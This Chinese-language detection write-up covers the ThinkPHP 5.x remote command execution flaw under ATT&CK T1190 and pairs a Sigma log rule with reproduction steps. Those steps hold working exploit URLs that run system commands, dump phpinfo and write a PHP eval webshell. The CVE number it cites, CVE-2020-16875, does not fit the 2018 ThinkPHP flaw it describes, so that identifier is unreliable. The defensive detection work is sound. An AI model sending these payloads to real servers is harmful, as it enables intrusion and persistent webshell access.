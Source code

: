 # T1190-Thinkphp 5.x远程命令执行漏洞检测

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## CVE-2020-16875漏洞

### 简介

ThinkPHP官方2018年12月9日发布重要的安全更新，修复了一个严重的远程代码执行漏洞。该更新主要涉及一个安全更新，由于框架对控制器名没有进行足够的检测会导致在没有开启强制路由的情况下可能的getshell漏洞，受影响的版本包括5.0和5.1版本，推荐尽快更新到最新版本。

### 影响版本

5.x < 5.1.31, <= 5.0.23

## 测试案例

漏洞分析及漏洞利用可参考Thinkphp 5.x远程命令执行漏洞：

<https://www.cnblogs.com/backlion/p/10106676.html>

## 检测日志

HTTP_log，访问日志也可以

## 测试复现

1.利用system函数远程命令执行

```yml
http://localhost:9096/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```

2.通过phpinfo函数写出phpinfo()的信息

```yml
http://localhost:9096/public/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```

3.写入shell:

```yml
http://localhost:9096/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo%20^%3C?php%20@eval($_GET[%22code%22])?^%3E%3Eshell.php
```

或者

```yml
http://localhost:9096/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=../test.php&vars[1][]=<?php echo 'ok';?>
```

## 测试留痕

暂无

## 检测规则/思路

### sigma规则

```yml
title: Thinkphp 5.x远程命令执行漏洞
description: 通过访问日志orHttp.log检测Thinkphp 5.x远程命令执行漏洞利用行为
translator: 12306Bro
date: 2020/12/12
status: experimental
references:
    - https://www.cnblogs.com/backlion/p/10106676.html
logsource:
    category: webserver
detection:
    selection:
        c-uri:
            - '/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array'
    condition: selection
fields:
    - c-ip
    - c-dns
falsepositives:
    - Unknown
level: critical
```

## 备注

在具体业务场景下遇到，特记录。可以根据具体payload来判断是否为真实攻击。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

Thinkphp 5.x远程命令执行漏洞：

<https://www.cnblogs.com/backlion/p/10106676.html>
